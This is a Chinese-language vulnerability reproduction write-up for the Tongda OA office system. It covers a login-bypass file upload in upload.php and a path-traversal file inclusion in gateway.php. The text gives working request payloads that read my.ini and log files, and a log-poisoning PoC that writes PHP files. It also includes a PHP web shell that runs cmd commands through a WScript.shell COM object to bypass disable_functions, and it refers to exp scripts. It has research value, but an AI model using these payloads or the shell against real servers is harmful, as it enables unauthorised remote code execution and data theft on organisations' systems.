## 通达OA


### 文件包含测试

文件包含检测，payload:

	ip/ispirit/interface/gateway.php?json={"url":"/general/../../mysql5/my.ini"}

利用文件包含访问mysql.ini,检查是否有某些特定字符串 ，比如```innodb_log_group_home_dir```


payload2:

	ip/ispirit/interface/gateway.php?json={}&url=/general/../../nginx/logs/oa.access.log

利用文件包含访问OA日志


## 复现

下载源码，链接：https://pan.baidu.com/s/1HP5pDsAK2QLOWpnB1JX-Yg 提取码：vab0 

是个exe，安装解压完是php代码。

用Sublime打开，都是16进制加密



用notepad打开显示，zend加密，



[php在线解密网站](http://dezend.qiling.org/free.html)  解密出源代码。

**文件上传**

ispirit/im/upload.php

要上传首先需要绕过登陆验证，在本系统中auth.php是登陆验证的相关逻辑，但在upload.php未修复前，如果$P非空就不需要经过auth.php验证即可执行后续代码。利用此处逻辑漏洞可绕过登陆验证直接上传文件。



经过下载源码测试，上传后的文件在 ```MYOA/attach/im/2003/```目录下。

因上传后的文件不在根目录，所以无法直接利用，因此需要进行文件包含。


**文件包含**



与上传相反，这里不传P参数就可以文件包含。

未修复前，可通过精心构造json进入47行的includ_once进行文件包含。官方在补丁中过滤了 ```..```防止用户读取其他目录文件。

## POC

poc有很多，其一，

首先构造url并访问，在日志中写入一句话，原理是OA默认会将访问url，agent写日志。

	/ispirit/interface/gateway.php?json={}&a=<?php file_put_contents('1.php','hello123');?>

先在浏览器访问，



发现"<"被浏览器url编码了



用burp重新发包。


成功写入日志。(写日志的方式省去了上传)



文件包含



如果php poc 为 ```<?php file_put_contents('1.php','hello123');?>```

则上传到 存在漏洞文件 gateway.php 同级目录，如果php poc为```<?php file_put_contents('../1.php','hello123');?>```,则上传到 上一级目录 ispirit 目录下。**注意路径**。


## exp

通过 upload.php 上传一个文件，可自定义后缀名。经过下载源码测试，上传后的文件在 ```MYOA/attach/im/2003/```目录下。

**思路一**：

上传一个写shell的php文件，在利用文件包含写shell。

具体见exp.py。

**思路二**：

执行cmd, 

MYOA/bin/ 目录下的 php.ini 禁用了一些执行，命令的函数。

	disable_functions = exec,shell_exec,system,passthru,proc_open,show_source,phpinfo

	disable_classes =

参考[使用com组件绕过disable_functions](https://www.cnblogs.com/-qing-/p/10944118.html)。

eg:

	<?php
	$command=$_GET['a'];
	$wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
	$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令
	$stdout = $exec->StdOut();
	$stroutput = $stdout->ReadAll();
	echo $stroutput;
	?>

这里写的exp总是将post数据自动url编码。达不到burp的效果。



<br/>



查看资料，

[python requests不进行编码直接发送的办法](https://www.jianshu.com/p/e1a8527d5395)

需要先设置一次请求头setHeader("Content-Type", "application/x-www-form-urlencoded")再将数据拼接成string格式再进行发送  ：)

终于写成了exp2.py。


## 版本路径

不同环境路径不同。

例如2013：

/ispirit/im/upload.php

/ispirit/interface/gateway.php

例如2017：

/ispirit/im/upload.php

/mac/gateway.php

## 后记

一些趣事。

正常该用post包含的。



get包含就很玄学了。正常get请求(不空行)是不行的,在浏览器GET请求也是不能包含的。



注意看我光标位置。必须空出来一行，否则不成功。get无请求体，不知道是什么原因。



空两行试试



发包，Content-Length都有了，可真牛啊。



wireshark抓个包,get没请求体呀。见```strange-get-include.pcap```。




## 参考资料

https://mp.weixin.qq.com/s?__biz=MzUzNTEyMTE0Mw==&mid=2247483673&idx=1&sn=a1f88fa6c62b3d6e80f0b8a4e6d87a37&chksm=fa8b1c81cdfc9597cef9f078508611f765360e049978ac53f00b6a608a0e21ec5704879000e4&mpshare=1&scene=1&srcid=&sharer_sharetime=1584615867059&sharer_shareid=5a0049ad005b04d2683ee755107dbbd6#rd


http://club.tongda2000.com/forum.php?mod=viewthread&tid=128372


[**PHP绕过disable_function限制（一）**](https://www.cnblogs.com/-qing-/p/10944118.html)

[python requests不进行编码直接发送的办法](https://www.jianshu.com/p/e1a8527d5395)

